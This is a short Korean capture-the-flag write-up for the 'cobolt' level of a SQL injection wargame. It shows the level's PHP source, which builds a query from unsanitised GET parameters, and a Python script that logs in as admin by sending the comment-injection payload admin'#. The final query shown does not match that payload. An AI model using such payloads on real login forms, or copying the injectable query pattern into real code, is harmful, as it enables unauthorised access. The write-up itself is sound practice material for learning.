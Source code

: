 ## COBOLT Write-up

### 문제
``` php
<?php  
include "./config.php";  
login_chk();  
dbconnect();  
if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~");  
if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");  
$query = "select id from prob_cobolt where id='{$_GET[id]}' and pw=md5('{$_GET[pw]}')";  
echo "<hr>query : <strong>{$query}</strong><hr><br>";  
$result = @mysql_fetch_array(mysql_query($query));  
if($result['id'] == 'admin') solve("cobolt");  
elseif($result['id']) echo "<h2>Hello {$result['id']}<br>You are not admin :(</h2>";  
highlight_file(__FILE__);  
?>
```
### Exploit 코드
``` python
import requests

url = 'http://los.rubiya.kr/cobolt_b876ab5595253427d3bc34f1cd8f30db.php'
cookies = {'PHPSESSID' : 'My PHPSESSID'}
params = {}
params['id'] = "admin'#"

res = requests.get(url, cookies = cookies, params = params)

if "Clear" in res.text :
    print("[♪] COBOLT Clear!")
```
1번 문제는 id의 존재만 확인했지만 이번 문제는 id가 admin이어야 한다.  
따라서 id에 **admin'#** 을 넣어주었다.
``` php
select id from prob_cobolt where id=''||id='admin'#' and pw=''
```
쿼리문이 위와 같이 되고 id가 admin이 되어 문제가 풀린다.